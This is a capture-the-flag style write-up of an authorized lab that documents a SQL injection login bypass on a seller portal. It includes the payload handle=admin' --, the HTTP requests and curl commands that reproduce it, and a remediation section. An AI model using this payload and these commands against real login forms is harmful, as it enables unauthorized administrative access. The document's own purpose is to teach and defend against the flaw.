










> **Publication note:** This article documents a fresh reproduction in an authorized WebVerse educational lab. Reusable session values and private raw artifacts are excluded. The current lab objective is represented publicly as `WEBVERSE{REDACTED}`.

## Executive Summary

Tradesman exposed a legacy seller authentication flow at `POST /seller/login`. The public marketplace pointed to a separate seller surface, where the server-rendered form accepted `handle` and `password` fields. Normal invalid credentials returned HTTP 200 with the stable `Invalid handle or password` marker, while the protected dashboard redirected unauthenticated requests back to the login page.

A single apostrophe remained on the normal invalid-login path. Changing only the `handle` value to a structured SQL comment payload changed the behavior: the server returned HTTP 302 to `/seller/dashboard` and issued a new session cookie. Reusing that newly issued session loaded the dashboard with HTTP 200 and identified the active account as `admin` with the `platform_admin` role.

The same session reached the dashboard-linked `/seller/dashboard/admin-notes` route. The response described the notes as internal and administrators-only, then returned the lab's integration-key objective. The full flow was reproduced independently with curl using a fresh cookie jar. Testing stopped after the read-only objective was confirmed.

> **CONFIRMED FINDING**
>
> The seller login accepts attacker-controlled SQL structure through `handle`. A targeted comment payload bypasses the password-dependent authentication boundary for the demonstrated `admin` account, resulting in a server-issued session accepted as `platform_admin`.

## 1. Report Profile

| FIELD | VALUE |
| --- | --- |
| Platform | WebVerse |
| Lab | Tradesman |
| Difficulty | Easy |
| Status | Solved / Verified |
| Affected endpoint | `POST /seller/login` |
| Affected parameter | `handle` |
| Protected resource | `/seller/dashboard` |
| Objective resource | `/seller/dashboard/admin-notes` |
| Verified role | `admin` / `platform_admin` |
| Primary weakness | CWE-89 — SQL Injection |
| Evidence | Fresh-instance Caido reproduction and independent curl verification |

### Verified Attack Chain

```text
GET /seller/login
  > server-rendered form with handle and password fields
Invalid credentials
  > HTTP 200, "Invalid handle or password"
GET /seller/dashboard without an authenticated session
  > HTTP 302 to /seller/login
Single-quote control in handle
  > HTTP 200, normal invalid-login marker
Controlled SQLi mutation: handle=admin' -- <trailing space>
  > HTTP 302 to /seller/dashboard
  > Set-Cookie: session=<REDACTED>
Reuse only the newly issued session
  > HTTP 200, admin / platform_admin
GET /seller/dashboard/admin-notes
  > HTTP 200, administrators-only notes
  > WEBVERSE{REDACTED}
Independent curl reproduction
  > fresh cookie jar reaches the same protected resource
```

## 2. Scope and Evidence Boundary

The reproduction was limited to the intentionally vulnerable Tradesman lab and the seller login, protected dashboard, and dashboard-linked read-only notes route. Historical material supplied the expected route grammar and vulnerability theme only; dynamic responses, session state, and objective evidence were collected from the active instance.

- The password value remained the same known-invalid test string during the controlled request differential.
- No database enumeration, extraction, write action, or unrelated dashboard functionality was tested.
- Session values are redacted and excluded from the public artifact.
- The published evidence supports the SQL injection, authenticated-session transition, role-bearing dashboard access, and the read-only objective. It does not claim source-code access, database-engine identification, or broader administrative capability.

Caido captured the primary request and response evidence. curl independently repeated the decisive login and readback flow with its own fresh cookie jar.

## 3. Fresh Seller Login Contract

The seller sign-in page provided a direct form contract rather than an inferred endpoint. Its HTML posted to `/seller/login` and used `handle` and `password` as the submitted names.

```html
<form method="post" action="/seller/login" autocomplete="off">
  <input type="text" id="handle" name="handle" required>
  <input type="password" id="password" name="password" required>
  <button type="submit">Sign in</button>
</form>
```



**Figure 1 — Login contract.** The active application accepts the seller credentials through `POST /seller/login` with the exact `handle` and `password` fields.

## 4. Normal Rejection and Protected-Route Baselines

Before introducing SQL syntax, an intentionally invalid login established the normal authentication outcome.

```http
POST /seller/login
Content-Type: application/x-www-form-urlencoded

handle=invalid_user%40example.local&password=WrongPass123
```

The application returned HTTP 200 with its explicit rejection marker:

```html
<div class="form-error">Invalid handle or password</div>
```



**Figure 2 — Invalid baseline.** Normal invalid credentials remain on the login path and return the deterministic rejection marker.

The dashboard was also requested before exploitation. Without an authenticated session, it returned HTTP 302 with `Location: /seller/login`.



**Figure 3 — Protected route.** The dashboard is not anonymously accessible before the controlled login mutation.

## 5. Quote Differential Control

The first mutation placed a lone apostrophe in `handle` while retaining the same request shape and invalid password. It produced the same HTTP 200 invalid-login behavior.

```text
handle='&password=WrongPass123
```



**Figure 4 — Quote control.** A metacharacter alone does not authenticate the user. This removes the simpler explanation that any quote, parser anomaly, or generic validation defect created the later privileged state.

## 6. Controlled SQL Injection Authentication Bypass

The decisive request changed only `handle` to a targeted comment payload and kept the password at the same known-invalid value:

```http
POST /seller/login
Content-Type: application/x-www-form-urlencoded

handle=admin' -- &password=WrongPass123
```



**Figure 5 — Controlled mutation.** The password and route remain fixed; the decisive difference is the structured `handle` value. Any pre-existing request cookie visible in the replay is redacted and is not used as proof.

The server changed from the invalid-login response to a dashboard redirect and issued a new session cookie:

```http
HTTP/1.1 302 Found
Location: /seller/dashboard
Set-Cookie: session=<REDACTED>
```



**Figure 6 — Authentication transition.** The server-issued session is the boundary-crossing artifact; the redirect alone is not treated as sufficient proof.

## 7. Privileged Session Verification

The newly issued session was applied to the previously protected dashboard. The response now returned HTTP 200 and identified both the account and role:

```text
Signed in as admin with role platform_admin
```



**Figure 7 — Privileged dashboard.** The application accepts the new session as `admin` / `platform_admin` and exposes a direct navigation link to the admin-notes route.

## 8. Admin-Only Notes and Objective Readback

Using the same SQLi-issued session, the dashboard-linked notes route returned HTTP 200. The page described the content as internal and administrators-only before returning the integration-key objective.

```text
Internal — admins only. Notes here are visible to platform staff, never to sellers.
The current integration key is WEBVERSE{REDACTED}.
```



**Figure 8 — Objective readback.** The protected notes resource confirms the authorization context and returns the public-safe, redacted lab objective. No additional internal tools or data were accessed.

## 9. Independent curl Verification

The decisive flow was reproduced outside Caido so the result did not depend on Replay state or an existing browser session. curl submitted the same controlled login to a fresh cookie jar:

```bash
curl -ksS -i \
  -c /tmp/tradesman_session.txt \
  --data-urlencode "handle=admin' -- " \
  --data-urlencode "password=WrongPass123" \
  "$BASE/seller/login"
```

The response again redirected to `/seller/dashboard` and issued a redacted session value.



**Figure 9 — Independent login.** A fresh non-Caido request reproduces the same authentication transition.

The same local cookie jar then reached the protected notes route with HTTP 200:

```bash
curl -ksS -i \
  -b /tmp/tradesman_session.txt \
  "$BASE/seller/dashboard/admin-notes"
```



**Figure 10 — Independent readback.** The curl-created session reaches the same `admin` / `platform_admin` context and reproduces the redacted administrators-only objective.

## 10. Root Cause and Classification

The runtime behavior is consistent with user-controlled `handle` data being incorporated into a legacy SQL authentication query without safe parameter binding. The exact query text and database engine were not observed, so the following is illustrative rather than captured source:

```sql
SELECT ...
FROM sellers
WHERE handle = '<handle>'
  AND password = '<password>';
```

With the controlled input, the likely semantic effect is:

```sql
WHERE handle = 'admin' -- ...password condition...
```

The primary mapping is [CWE-89](https://cwe.mitre.org/data/definitions/89.html): attacker-controlled input changed SQL behavior at the authentication boundary. The observed authentication bypass and notes exposure are verified consequences of that injection path, not separate asserted root-cause CWEs.

## 11. False-Positive Controls

The conclusion relies on independent controls instead of one anomalous response:

1. Invalid credentials produced HTTP 200 and the normal rejection marker.
2. The protected dashboard redirected to login before exploitation.
3. A lone apostrophe remained rejected.
4. Only the structured SQL comment mutation changed the flow to an authenticated redirect.
5. The new session was accepted by the previously protected dashboard.
6. The dashboard bound that session to `admin` / `platform_admin`.
7. The notes route stated that its contents were administrators-only.
8. An independent curl flow began with a fresh cookie jar and reproduced the privileged readback.

This evidence confirms SQL injection and the demonstrated authentication bypass. It does not establish source-code access, database write capability, arbitrary database extraction, command execution, or untested dashboard permissions.

## 12. Impact

The verified impact is a password-authentication bypass for the demonstrated `admin` account. The server then issues a session accepted as `platform_admin`, giving access to a previously protected dashboard and its linked administrators-only notes.

The confirmed lab impact is limited to reading the integration-key objective in that notes resource. The dashboard states that the account has access to internal platform tools, but no additional tool access, write actions, or unrelated data collection was tested. In a production environment, impact would depend on account privileges and the data exposed behind the affected authentication boundary.

## 13. Remediation

### Parameterize the Login Query

Use prepared statements or parameterized queries for every user-controlled value. The SQL statement must remain fixed while `handle` is supplied as data rather than concatenated query structure.

### Verify Passwords Separately

Select the account through a safely bound identifier, then verify the supplied password against a modern password hash such as Argon2id, bcrypt, or scrypt. Create an authenticated session only after the entire credential-verification path succeeds.

### Rotate the Exposed Integration Key

Rotate the key exposed in the administrators-only notes and invalidate the old value wherever it is referenced. Restrict sensitive operational values to a dedicated secret-management boundary where possible.

### Review Legacy Authentication Surfaces

Audit seller, vendor, staff, and back-office routes that survived frontend rewrites or migrations. Add regression tests for apostrophes, SQL comment syntax, and other metacharacters in authentication fields.

## 14. Validation After the Fix

- Invalid credentials should retain the rejection path and never issue an authenticated session.
- Apostrophes and SQL comment syntax should remain literal input rather than changing query structure.
- `/seller/dashboard` should redirect to login unless a genuine login has completed.
- No failed login path should create a session accepted as `admin` or `platform_admin`.
- The rotated integration key should no longer be valid in dependent systems.
- Automated tests should fail if future changes reintroduce string concatenation in authentication queries.

## Conclusion

Tradesman demonstrates a classic SQL injection at a legacy authentication boundary. A targeted comment payload in `handle` changes a deterministic invalid login into a server-issued session accepted as `admin` / `platform_admin`. The conclusion is supported by the invalid baseline, protected-route baseline, quote control, new-session readback, explicit role marker, administrators-only resource, and independent curl reproduction.

The public result is recorded as `WEBVERSE{REDACTED}`. Testing stopped after the authorized, read-only objective was confirmed.
